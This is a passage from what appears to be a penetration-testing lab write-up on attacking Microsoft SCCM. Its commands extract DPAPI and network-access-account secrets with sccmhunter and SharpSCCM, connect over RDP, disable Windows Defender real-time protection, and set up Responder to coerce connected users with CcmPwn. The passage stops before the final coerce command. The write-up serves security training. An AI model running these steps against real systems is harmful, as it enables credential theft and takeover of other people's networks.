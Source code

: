 ```bash
python3 sccmhunter.py dpapi  -u administrator -p 'EP+xh7Rk6j90' -target 192.168.33.13 -debug
```

![dpapi_sccmhunter.png](/assets/blog/SCCM/dpapi_sccmhunter.png)

### from windows
- Connect as local admin in RDP

```bash
mkdir /workspace/share
xfreerdp /u:"administrator" /p:"EP+xh7Rk6j90" /v:"192.168.33.13" /cert-ignore /drive:share,/workspace
```

- Disable windows defender

```powershell
Set-MpPreference -DisableRealTimeMonitoring $true
```

- Next download SharpSCCM from the share and use it

```powershell
.\SharpSCCM_merged.exe local secrets -m wmi
```

![local_admin_naa.png](/assets/blog/SCCM/local_admin_naa.png)


```powershell
.\SharpSCCM_merged.exe local secrets -m disk
```

![local_admin_naa2.png](/assets/blog/SCCM/local_admin_naa2.png)

## Impersonate Users - coerce connected users

- Recently Andrew Oliveau (@AndrewOliveau) has written [CcmPwn](https://github.com/mandiant/CcmPwn) a tool to impersonate users with sccm client. Blog post can be read [SeeSeeYouExec](https://cloud.google.com/blog/topics/threat-intelligence/windows-session-hijacking-via-ccmexec?hl=en)

- The tool use impacket and can be used to coerce all the connected users with the help of SCNotification.exe.

- First create a connected user

```bash
xfreerdp /u:"eve" /p:"iloveyou" /d:"sccm.lab" /v:"192.168.33.13" /cert-ignore
```

- Then launch responder

```bash
Responder.py -I vmnet6
```

- And finally launch the coerce
